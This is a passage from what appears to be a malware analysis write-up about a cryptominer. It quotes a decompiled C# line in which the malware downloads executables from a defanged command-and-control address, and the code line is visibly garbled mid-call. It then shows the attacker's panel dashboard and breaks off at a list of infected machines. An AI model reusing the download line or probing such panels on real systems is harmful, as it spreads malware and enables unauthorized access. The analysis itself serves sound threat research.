 It is on the code of the miner that I identified the command and control server from where the malware was downloading the different binaries:

```c#
Class5.downloadFile(GetInfoSystem.Boolean_0 ? "hxxp://159[dot]224[dot]138[dot]20/panel/mr/audiodg.exe" : "hxxp://159[dot]224[dot]138[dot]20/panel/mr/curl.exe", we need to do some black magic!
```

From there it was just about finding the right place to poke. This was the main dashboard:
![c2](https://github.com/mlwre/mlwre.github.io/blob/master/_posts/invaders_imgs/Panel_Dashboard.png?raw=true "Main dashboard")

A list of the infected machines and what system specifications these had: